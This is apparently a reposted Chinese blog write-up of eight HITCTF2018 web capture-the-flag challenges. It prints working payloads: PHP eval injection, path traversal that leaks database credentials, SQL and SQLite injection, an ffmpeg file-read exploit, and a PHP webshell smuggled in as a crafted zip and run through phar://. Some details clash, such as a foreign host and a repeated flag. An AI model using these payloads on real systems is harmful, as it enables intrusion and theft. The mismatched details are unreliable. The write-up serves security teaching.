<!--yml
category: 未分类
date: 2022-04-26 14:19:52
-->

# HITCTF2018-web全题解_合天网安实验室的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_38154820/article/details/106329652](https://blog.csdn.net/qq_38154820/article/details/106329652)

**点击蓝字**

**关注我们**

**前记**

最近参加了一下哈工大办的HITCTF，感觉题目可以学到知识，于是分享一下我的题解~

01

PHPreading

发现文件泄露

http://198.13.58.35:8899/index.php.bak

内容

<?php 

 eval(base64_decode('JGZsYWc9JF9HRVRbJ2FzZGZnanh6a2FsbGdqODg1MiddO2lmKCRmbGFnPT0nSDFUY3RGMjAxOEV6Q1RGJyl7ZGllKCRmbGFnKTt9ZGllKCdlbW1tbScpOw=='))

?>

解码得到

$flag=$_GET['asdfgjxzkallgj8852'];if($flag=='H1TctF2018EzCTF'){die($flag);}die('emmmm');

于是请求

http://198.13.58.35:8899/index.php?asdfgjxzkallgj8852=H1TctF2018EzCTF

得到flag：HITCTF{Php_Is_ez_to_Read}

02

BabyEval

发现源码

<!--

$str=@(string)$_GET['str'];

blackListFilter($black_list, $str);

eval('$str="'.addslashes($str).'";');

-->

那么如何执行命令呢？

实现的方法是传入参数：str={{phpinfo()}}

这里如果直接上phpinfo()，由于有addslashes的作用会出现\"的情况使得命令无法执行

${phpinfo()}告诉我们最里面这个是变量,名为phpinfo(),接下来的一层花括号将其解析为字符串"phpinfo()"

另外,{}有时候也可以当[]使用,文档中有说明："Note: string 也可用花括号访问，比如 str42",这里str{42}==$str[42]

所以我的payload

http://120.24.215.80:10013/index.php?str=${var_dump(cat%20../../../162920976d9c04ac69e2f4392a8cffbf_flag.txt)}

即可拿到

flag:string(39) "flag{162920976d9c04ac69e2f4392a8cffbf} "

03

BabyLeakage

随便点一点，发现是Django写的



于是想到python的经典问题：目录穿越

于是试了一下

http://118.89.230.52:8000/../../../../../etc/passwd

得到

Using the URLconf defined in minicms.urls, Django tried these URL patterns, in this order:

^$

^news/

^admin/

^media\/(?P<path>.*)$

The current path, etc/passwd, didn't match any of these.

发现media可以用，于是

http://118.89.230.52:8000/media/..%2f__pycache__/

可以得到关键信息泄露

MYSQL_DB

'djangodb'

MYSQL_HOST

'mysql'

MYSQL_PASSWORD

'Fl4g_1s_n0T_H3re_But_C10se'

MYSQL_PORT

'3306'

MYSQL_USER

'manage'

于是我们远程连接Mysql

mysql -h 118.89.230.52 -P 3306 -u manage -pFl4g_1s_n0T_H3re_But_C10se

成功连接上后，先看数据库



发现F1agIsHere数据库

查表



然后挨个查找



发现都是空的

于是想到字段名是flag

于是用DESC看字段名，而这里4个表名明显是flag，于是我们按顺序读





得到flag：

HITCTF{C10se_Debu91nfo_Is_Immmport4n7}

04

BabyInjection

发现直接给出了源码：

关键代码

$flag = '';

$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)|like|rlike|regexp|limit|or";

$username = $_POST['username'];

$passwd = $_POST['passwd'];

if (preg_match("/".$filter."/is",$username)==1){

    die("Hacker hacker hacker~");

}

if (preg_match("/".$filter."/is",$passwd)==1){

    die("Hacker hacker hacker~");

}

$conn = mysqli_connect();

$query = "SELECT * FROM users WHERE username='{$username}';";

echo $query." ";

$query = mysqli_query($conn, $query);

if (mysqli_num_rows($query) == 1){

    $result = mysqli_fetch_array($query);

    if ($result['passwd'] == $passwd){

        die('you did it and this is your flag: '.$flag);

    }

    else{

        die('Wrong password');

    }

}

else{

    die('Wrong username');

}

流程就是:

1.根据我们输入的username查询

2.将查到的密码和我们输入的比对

3.相同就获得flag

难点如下：

1.不知道用户名

2.存在许多过滤，比如关键的select等都被过滤了

所以可以知道这题不是一道单纯的注入题，那么有没有其他方法让我们的密码和用户名查询结果一致呢？

这里有一个方法：with rollup

我们假设用户名是admin，那么

SELECT * FROM users WHERE username='admin' group by passwd WITH ROLLUP

会产生一个password为NULL的行

而这里有一个检验:

mysqli_num_rows($query) == 1

所以我们需要Limit

SELECT * FROM users WHERE username='admin' group by passwd with rollup limit 0,1

此时查询出来的的admin用户的密码即为Null

而我们不输入密码，则passwd也为Null

此时可以匹配成功

那么第一个问题来了

我们不知道用户名怎么办？

这里我们可以用

SELECT * FROM users WHERE username=''=0 group by passwd with rollup limit 0,1

来绕过

然后第二个问题来了

limit被过滤了怎么办？

首先明确我们为什么要用Limit:因为要把密码为null的那一行拿出来

那么我们知道要拿出来的那一行的数据，还一定要用limit吗？

显然是不需要的

我们可以用having！

但是如果直接使用having passwd=null的话不会生效

因为mysql中null = null会返回 null，但是mysql还有一个比较操作符<=>，

当null <=> null的时候会返回1，于是可以构造类似下面的语句：

SELECT * FROM users WHERE username=''=0 group by passwd with rollup having passwd <=> null

所以此时我们可以构造我们的payload了：

username = '=0 group by passwd with rollup having passwd <=> null#

passwd 不填

即可获得flag：

HITCTF{9989035e268342af1f40f26aad336623}

05

小电影

拿到题目http://198.13.58.35:2333/

f12可以看到

<!-- flag is in /flag.txt -->

首先可以判断既然是flag.txt，那么肯定不会在www目录下，否则可以直接读到了

所以这个flag文件应该存在于根目录

接着看题目的要求

/upload , /download?name=xxx.avi .We will help you convert video with ffmpeg. Maybe you will find something different

Don't attack the platform ,it's simple .

Pay more attention to the video file and you will see what you want .

可以看到ffmpeg

立刻想到ffmpeg的任意文件读取漏洞

漏洞简介：

利用了ffmpeg可以处理 HLS 播放列表的功能，在 AVI 文件中的 GAB2字幕块中嵌入了一个 HLS 文件，然后提供给ffmpeg进行转码，在解析的过程中把它当做一个 XBIN 的视频流来处理，再通过 XBIN 的编解码器把本地的文件包含进来，最后放在转码后的视频文件当中。

这里详细漏洞参照freebuf的文章

http://www.freebuf.com/column/142775.html

而这题的做题方法如下

1.下载脚本 https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py

2.运行脚本：python3 gen_xbin_avi.py file:///flag.txt 123.avi

此时可以生成我们需要的恶意文件123.avi

注：这里题目要求必须上传文件名为123.avi的文件

上传后得到

upload success: 15174734042.avi 

but it wont last long

我们去下载

http://198.13.58.35:2333/download?name=15174734042.avi

即可下载到文件，打开即可看到flag：



HITCTF{O0o0o0oOracle_Attttttack_1s_yinQu3S17ing}

06

SecurePY

此题本质上是一道侧信道攻击爆破的题目

我们根据题目所述：

[uwsgi]

chdir=/app

module=app

callable=app

可以知道这是一个python服务端程序，主程序为app.py

我们直接访问

http://123.206.83.157:8000/app.py

发现是403，而查阅资料可以知道在python的web服务中

.py文件生成的pyc文件会被存储在__pycache__文件夹中，并以.cpython-XX.pyc为扩展名

而XX和版本号有关

于是我们访问

http://s3.chal.ctf.westerns.tokyo/__pycache__/app.cpython-XX.pyc

这里XX可以爆破一下，从20-40

这里可以发现

http://s3.chal.ctf.westerns.tokyo/__pycache__/app.cpython-35.pyc

可以下载到文件

我们反编译一下得到

#!/usr/bin/env python

# visit http://tool.lu/pyc/ for more information

from flask import Flask, request, jsonify, render_template

from Crypto.Cipher import AES

from binascii import b2a_hex, a2b_hex

import os

app = Flask(__name__)

flag_key = os.environ['KEY']

flag_enc = '9cf742955633f38d9c628bc9a9f98db042c6e4273a99944bc4cd150a0f7b9f317f52030329729ccf80798690667a0add'

def index():

    return render_template('index.html', flag_enc = flag_enc)

index = app.route('/')(index)

def getflag():

    req = request.json

    if not req:

        return jsonify(result = False)

    if None not in req:

        return jsonify(result = False)

    key = None['key']

    if len(key) != len(flag_key):

        return jsonify(result = False)

    for (x, y) in zip(key, flag_key):

        if ord(x) ^ ord(y):

            return jsonify(result = False)

    cryptor = AES.new(key, AES.MODE_CBC, b'0000000000000000')

    plain_text = cryptor.decrypt(a2b_hex(flag_enc))

    flag = plain_text.decode('utf-8').strip()

    return jsonify(result = True, flag = flag)

getflag = app.route('/getflag', methods = [

    'POST'])(getflag)

if __name__ == '__main__':

    app.run()

这里我们可以看到是一个AES-CBC的题目

这里受到CBC的padding oracle攻击的启发，我马上顺着题目的结构尝试了一下

{"key":[null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null]}

此时果然服务器响应500

于是我开始从第一个字符开始爆破

此时存在2种状态



如果正确则会服务器500



而如果错误则会回显

{"result":false}

故此我们可以爆破得到key：

{"key":["5","e","c","u","r","3","p","P","Y","p","y","P","Y","k","3","y"]}

此时提交key即可得到

flag:HITCTF{O0o0o0oOracle_Attttttack_1s_yinQu3S17ing}

07

BabyWrite

拿到题目后注意url

http://120.24.215.80:10012/?page=login

发现存在文件包含，随即尝试读源码

http://120.24.215.80:10012/?page=php://filter/read=convert.base64-encode/resource=index

发现读取成功

index.php

<?php

if(isset($_GET['page'])){

    $file = $_GET['page'].'.php';

    include($file);

}else{

    header("Location: /?page=login");

    die();

}

?>

发现是一个强行拼接.php的文件包含

再读login.php

<?php

    require_once('config.php');

    if(isset($_POST['username']) && isset($_POST['password'])){

        $username = $_POST['username'];

        $password = $_POST['password'];

        if ($username === "admin" && sha1(md5($password)) === $admin_hash){

            echo '';

        }else{

            if (isset($_GET['debug'])){

                if($_GET['debug'] === 'hitctf'){

                    $logfile = "log/".$username.".log";

                    $content = $username." => ".$password;

                    file_put_contents($logfile, $content);

                }else{

                    echo '';

                }

            }else{

                echo '';

            }

        }

    }else{

        echo '';

    }

?>

发现重点在于：

else{

            if (isset($_GET['debug'])){

                if($_GET['debug'] === 'hitctf'){

                    $logfile = "log/".$username.".log";

                    $content = $username." => ".$password;

                    file_put_contents($logfile, $content);

                }else{

                    echo '';

                }

            }else{

                echo '';

            }

        }

我们的用户名是log的文件名，而内容是用户名+" => "+密码的拼接

这里看到文件包含，我们容易想到

写一个shell文件，再包含进来，但是他强行拼接了.php，这里直接包含是行不通的……

所以想到php伪协议绕过，例如经典的phar://和Zip://

所以我们可以写一个shell文件，压缩成压缩包，再写入

但是问题又来了：

1.压缩包中间会被插入" => "，导致无法解压

2.文件名中不可带入%00

那么如何解决呢？

我的做法是随便写一个txt文件，再写一个我们的shell文件

<?php 

@eval($_POST[sky]);

 ?>

然后压缩成zip文件如图：



由于我们的文件会被拼接"=>"并且文件名不可带%00

所以我们选择输入方法:

username=%50%4B%03%04%0A

password=%00%84%56%42%4C%07%91%35%16%17%00%00%00%17%00%00%00%0B%00%00%00%74%65%73%74%73%6B%79%2E%70%68%70%3C%3F%70%68%70%20%0D%0A%70%68%70%69%6E%66%6F%28%29%3B%0D%0A%20%3F%3E%50%4B%03%04%0A%00%00%00%00%00%AE%4B%42%4C%54%3D%6E%D7%04%00%00%00%04%00%00%00%07%00%00%00%73%6B%79%2E%74%78%74%20%3D%3E%20%50%4B%01%02%3F%00%0A%00%00%00%00%00%84%56%42%4C%07%91%35%16%17%00%00%00%17%00%00%00%0B%00%24%00%00%00%00%00%00%00%20%00%00%00%00%00%00%00%74%65%73%74%73%6B%79%2E%70%68%70%0A%00%20%00%00%00%00%00%01%00%18%00%B5%7B%94%D0%D0%9B%D3%01%7E%46%23%B8%D0%9B%D3%01%7E%46%23%B8%D0%9B%D3%01%50%4B%01%02%3F%00%0A%00%00%00%00%00%AE%4B%42%4C%54%3D%6E%D7%04%00%00%00%04%00%00%00%07%00%24%00%00%00%00%00%00%00%20%00%00%00%40%00%00%00%73%6B%79%2E%74%78%74%0A%00%20%00%00%00%00%00%01%00%18%00%1A%E1%18%44%C5%9B%D3%01%8C%12%56%3F%C5%9B%D3%01%8C%12%56%3F%C5%9B%D3%01%50%4B%05%06%00%00%00%00%02%00%02%00%B6%00%00%00%69%00%00%00%00%00

此时拼接后的文件如图



那么此时压缩包还可以解压吗？

我们试试：

发现sky.txt已经破损了，我们再试试shell文件



发现sky.php竟然可以正常解压！

这就意味着我们用伪协议可以正常使用，并且getshell!

并且这也说明了为什么不能直接只压缩单个的shell，因为这也肯定解压会破损，而加入随便一个txt等于起到了保护作用，防止后面shell文件破损，这可能和zip的文件格式有关，有兴趣的可以深入研究。

所以我们写入文件后，payload如下

get请求

http://120.24.215.80:10012/?page=phar://./log/PK%03%04%0a.log/sky

post请求

sky=system('cat ../../../../d124abbe4cb6aa1621a8ca9519c0f5bf_flag.txt');

即可拿到flag：

flag{61894b21be75260c4964065b1eecec4d}

08

BabyQuery

打开页面是一个查询界面



我们抓包研究一下:

发现查询时候发出的数据为

query=%7B+getscorebyid(id%3A+%22GE%3D%3D%3D%3D%3D%3D%22)%7B+id+name+score+%7D+%7D

我们解码一下

query={ getscorebyid(id: "GE======"){ id name score } }

并且根据url，判断出是graphql，一个查询API

我们随便改一下

query={ getscorebyid(id: "GE"){ id name score } }

发现报错

[GraphQLLocatedError('Incorrect padding',), GraphQLLocatedError('Incorrect padding',), GraphQLLocatedError('Incorrect padding',)]

填充错误，那我们不改变他的结构再试试

query={ getscorebyid(id: "11======"){ id name score } }

又报错了

[GraphQLLocatedError('Non-base32 digit found',), GraphQLLocatedError('Non-base32 digit found',), GraphQLLocatedError('Non-base32 digit found',)]

发现是个base32

那我们去解码

GE======

1

发现结果是1

于是为了做题方便，我写了一个python交互，这样不用我们频繁的转换发包，脚本如下:

import base64

import requests

url = "http://182.254.247.127:3001/graphql"

payload = base64.b32encode("123")

go = '{ getscorebyid(id: "%s"){ id name score } }'%(payload)

data = {

    "query" : go

}

r = requests.post(data=data,url=url)

print r.content

我们先尝试直接注入

1'

得到报错

[GraphQLLocatedError('Incorrect number of bindings supplied. The current statement uses 1, and there are 2 supplied.',), GraphQLLocatedError('Incorrect number of bindings supplied. The current statement uses 1, and there are 2 supplied.',)]

发现只能输入一位数，这就极大的限制了我们的构造

于是我开始从他的查询结构入手，一定要根据id查询吗？

尝试

{ getscorebyname(name: "1"){ id name score } }

再次报错了

[GraphQLError('Cannot query field "getscorebyname" on type "Query". Did you mean "getscorebyyourname" or "getscorebyid"?',)]

发现真的可以改变查询结构

{ getscorebyyourname(name: "Alice"){ name score } }

我们再次尝试，可以得到结果

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', 'Alice'), (u'score', '100')]))])

并且我们惊奇的发现，这里不会再受1位数的限制了，于是尝试注入

{ getscorebyyourname(name: "1' or 'a'='a"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' or 'a'='a"), (u'score', '100995958')]))])

发现注入成功了

于是我们构造联合查询

{ getscorebyyourname(name: "1' union select 1 --"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select 1 --"), (u'score', '1')]))])

发现score处变成了我们联合查询填充的1

这时我尝试查询数据库名的时候发现了问题

[GraphQLLocatedError('no such function: database',)]

这时我注意到，这题并不是Mysql,于是我猜测是sqlite

我们测试一下:

{ getscorebyyourname(name: "1' union select sqlite_version() --"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select sqlite_version() --"), (u'score', '3.11.0')]))])

发现成功查询出版本号:3.11.0，果然是sqlite

于是开始爆表：

1' union select (select name from sqlite_master where type='table' limit 0,1) --

可以得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select (select name from sqlite_master where type='table' limit 0,1) --"), (u'score', 'users')]))])

第一个表是users，依次查找，可以发现我们要的是第二个表:Secr3t_fl4g

猜测字段名为flag并且查询

1' union select (select flag from Secr3t_fl4g) --

得到答案

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select (select flag from Secr3t_fl4g) --"), (u'score', 'HITCTF{fee26d3a146a404e106b1ed93156f30e}')]))])

可以看到flag：

HITCTF{fee26d3a146a404e106b1ed93156f30e}

看不过瘾？合天2017年度干货精华请点击《[【精华】2017年度合天网安干货集锦](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd5944558a2ecd431c78ad700abca82b6ed7f84dbf4811c992df4e464dbbc12124dd38df2554&idx=1&mid=2652846232&scene=21&sn=82123fbf2411874a427fb84cd111e39a#wechat_redirect)》

**别忘了投稿哟！！！**

合天公众号开启原创投稿啦！！！

大家有好的技术原创文章。

欢迎投稿至邮箱：*edu@heetian.com*；

合天会根据文章的时效、新颖、文笔、实用等多方面评判给予100元-500元不等的稿费哟。

有才能的你快来投稿吧！

[重金悬赏 | 合天原创投稿等你来！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd5945be8a2ecca808f62ee5726223c16cab235d216c891df2dd114b8539001390dbad37bccd&idx=2&mid=2652846451&scene=21&sn=2456db03a3a77d5ff8064449c34ffceb#wechat_redirect)

**    合天智汇**

网址 : *www.heetian.com*

电话：4006-123-731

长按图片，据说只有颜值高的人才能识别哦→